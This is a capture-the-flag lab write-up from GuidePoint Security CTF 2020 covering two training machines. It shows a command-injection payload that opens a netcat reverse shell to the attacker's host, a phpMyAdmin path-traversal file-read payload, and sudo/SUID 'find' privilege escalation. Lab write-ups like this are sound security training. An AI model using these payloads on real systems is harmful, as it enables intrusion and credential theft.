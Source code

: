 # GuidePoint Security CTF 2020

[GuidePoint CTF 2020](https://www.youtube.com/redirect?event=video_description&v=yJF0YPd8lDw&q=https%3A%2F%2Fgo.guidepointsecurity.com%2F2020_11_17_Corp_CaptureTheFlag_Digital_01-Registration-LP.html&redir_token=QUFFLUhqbVVlSTdCOGFwVDF1Z0FTVEU4MGswdWZ5OHNJZ3xBQ3Jtc0ttcjdhR0dld3lkUFJuNHhQQ3lwMEFEYkkycVdfbnlfT0N0ZndzWGFBVGttaExKazJjZm56Z3ktanFGSWdwaExZQ0dya0U4MmFHQ1R6M0pUWlY2alEyVDBTbEg5VG1BOS1uZXdRaGdmZURDNHF3RjB5dw%3D%3D)

## Timeline

Launch: Tuesday, November 17th - 8:00 AM EST
Ends: Monday, November 23rd - 5PM EST
Rank: 11/90 on Leader board (updated 11/19/2020)


# Belle 1
> May Phan November 17, 2020

## 1 Run nmap

found port80 open

nothing interesting on 10.10.20.3, just one line of html title and header

## Run dibrbuster to look for hidden directory

found phpmyadmin portal > admin,admin didn't work

## run dirbuster to find common file extension
````
dirb http://10.10.20.3/ /usr/share/dirb/wordlists/big.txt -w -X ".asp,.html,.htm,.php,.xml,.jsp"
````

a ha! found http://10.10.20.3/roster.php

## Roster Lookup

Look up Belle?

return 
``
Name: Belle
Role: Princess
"Have your really read every one of these books?"
``
Belle from Beauty and the beast? Rose petal? Books? princess?
Look up Beast
return 
```
"Here's where she meets Prince Charming, but she won't discover that it's him 'til chapter three!"
```
Is there a database? Maybe try running a sql vuln?

## Run sqlmap 

```
dumped to CSV file '/root/.local/share/sqlmap/output/10.10.20.3/dump/castle/Secret.csv'

```

Secret.cvs is large file with a ton of hex characters.. 


translated from hex but a flag is not found

`GMZDGMZTGYZTGMZWGMZTGMBTGYZTIMZWGM2TGMZTGUFDAYJTGYZTMMZTGMYTGMZTG4ZTMMZWGMZT
GMRTGMZTGMZTGMYDGMZTGMZTMMZUGMZTGOJTGMZTCMZTGM4DGMZTGEZTONRUGMYAUNRRGBQQU===
`
it's not base 64

staff.csv has some data

``
name,role,secret,quote
Belle,Princess,daxmaUBr2b.6g,Have you really read every one of these books?
Chip Potts,Son of Mrs. Potts,teSSCPf05DkTQ,"Ha ha! His moustache tickles, momma!"
Cogsworth,Pendulum clock,clN9IWrQ81HUw,"Enchanted? Ha-ha-ha-ha! Who said anything about the castle being enchated? Ha-ha-ha.... It was you, wasn't it?"
Gaston,Hunter,asMuXJnRAPDAM,"You are the wildest, most gorgeous thing I've ever seen! Nobody deserves you..."
Lefou,Gaston's lackey,laGnoRYe87qM2,And his name's G-A-S-T... I believe there's another T... It just occurred to me that I'm illiterate and I've never actually had to spell it out before... 
Luminere,maitre d,cadS49Adb3g76,Be our Guest!
Madame Armoire,Opera Singer,waonbbJgTptGU,AHHHHHHHHH!!!!
Maurice,Father,faBotLT53bVnI,Don't be afraid.
Mrs. Potts,Head of Kitchen,te18RJOS5u/4E,"Oh, stop your grousing. It's been a long night for all of us."
Plumette,Maid,fe0DoZHPoIvYY,A girl! I saw a girl in the castle!
The Beast,Prince,be42ZQu3jcOEo,"No, not all of them. Some of them are in Greek."
``

That " secret"  column looks promising, maybe we can look that up in the secret.csv file

I can trim the file to get only jsut secret

``
daxmaUBr2b.6g
teSSCPf05DkTQ
clN9IWrQ81HUw
asMuXJnRAPDAM
laGnoRYe87qM2
cadS49Adb3g76
waonbbJgTptGU
faBotLT53bVnI
te18RJOS5u/4E
fe0DoZHPoIvYY
be42ZQu3jcOEo
``

these can be hidden dir for each of the "staff"
 maybe use dirbuster again on thes secret to find 

``
---- Scanning URL: http://10.10.20.3/ ----
==> DIRECTORY: http://10.10.20.3/daxmaUBr2b.6g/                                                                      
==> DIRECTORY: http://10.10.20.3/teSSCPf05DkTQ/                                                                      
==> DIRECTORY: http://10.10.20.3/clN9IWrQ81HUw/                                                                      
==> DIRECTORY: http://10.10.20.3/asMuXJnRAPDAM/                                                                      
==> DIRECTORY: http://10.10.20.3/laGnoRYe87qM2/                                                                      
==> DIRECTORY: http://10.10.20.3/cadS49Adb3g76/                                                                      
==> DIRECTORY: http://10.10.20.3/waonbbJgTptGU/                                                                      
==> DIRECTORY: http://10.10.20.3/faBotLT53bVnI/                                                                      
==> DIRECTORY: http://10.10.20.3/te18RJOS5u/4E/                                                                      
==> DIRECTORY: http://10.10.20.3/fe0DoZHPoIvYY/                                                                      
==> DIRECTORY: http://10.10.20.3/be42ZQu3jcOEo/ 
``


this one timed out. what does it mean

``
---- Entering directory: http://10.10.20.3/cadS49Adb3g76/ ----                                                                             
(!) FATAL: Too many errors connecting to host
    (Possible cause: OPERATION TIMEOUT)
``

ok let's navigate to that

it's a guestbook
view source shows POST method with input 
we cam get a shell from that 


`
root@kali:/home/may# curl -X POST http://10.10.20.3/cadS49Adb3g76/ -d "input_name=a;system('/bin/nc.traditional -nv 10.10.0.77 4444 -e /bin/bash')&input_text=b&Submit=submit"
`

got a shell!! Found flag.txt 

`
flag2{cc46091749e55f33fe4046b9c8855a13}
`

escate priviledge

`
find / -user root -perm -4000 -exec ls -ldb {} \;
`

`
cat /home/public/flag.txt
flag3{ee195d0d8ee3e759f300116f0829468b}
cat /root/flag.txt
flag4{0fe769de0194b20822e561a57864ac48}
That's it.
`






# Jeffrey

> May Phan November 18 2020

view source found first flag: 

StormCTF{Learners:Net:Jeffrey1:6d9e2b41A7a421BE92d7cB23B850FD50}

# Nmap 

`
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 76:14:8f:cf:6a:49:bd:d3:ca:ec:9a:d7:6c:f8:7a:d5 (RSA)
|   256 2d:4f:86:b2:39:5d:45:6f:10:35:46:51:a7:e2:ae:17 (ECDSA)
|_  256 ea:3b:08:57:35:c0:75:af:70:b0:82:e1:82:11:bf:72 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                      
|_http-title: Jeffrey
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
`

allports

`
58008/tcp open  unknown
`

# Dirbuster

found /wordpress

when nagivating to 10.10.20.2/wordpress, clicked on liknks and got redirected to http://jeffrey.storm.ctf/. Ping unresponsive

Found phpadmin
logged in with admin:password 
found second flag

StormCTF{Learners:Net:Jeffrey2:faD3c1dB5d6F167c0C7BFd8f24af76Ee} 


another clue: 

Aldus, quit using the admin account. We removed the permissions. We saved your password at /var/www/aldus.txt

# PHP vuln

Let's check metasploit if this version of phpadmin has a vulnerable

phpadmin 4.8.1 does have a Local File vuln. we can climb up the file tree to get the txt file

found this on the exploidb website

Payload:

http://127.0.0.1/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../windows/wininit.ini

 we can use this to jeffery
`
http://10.10.20.2/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../var/www/aldus.txt
`
 found password
 Aldus, this is a really insecure way to store your password, so we encoded it so that no one can ever get it without knowing how to decode it!!! Your encoded password is: ZzN0X2hpbV8ydGgzLUdyM2VLCg==

 looks like a base64. google a decoder

 got password

 `
g3t_him_2th3-Gr3eK

 `

Where can I use this

there was another open port 58008

`
http://10.10.20.2:58008/
`
got it! logged in with aldus : g3t_him_2th3-Gr3eK


found the flag!!1

StormCTF{Learners:Net:Jeffrey3:ca2cBDD70aA9029d1bad2Cb527C18529}


last flag

priviledge escalation

`
sudo -l
`

seems like aldus run find, we might just be able to find flag.txt in root
`
User aldus may run the following commands on jeffrey.storm.ctf:
    (ALL) NOPASSWD: /usr/bin/find
`
`
sudo find . -exec cat flag.txt \
`

ah ha found the flag

StormCTF{Learners:Net:Jeffrey4:e4B6f1661bBE654Ba901CbC3Be377E89}
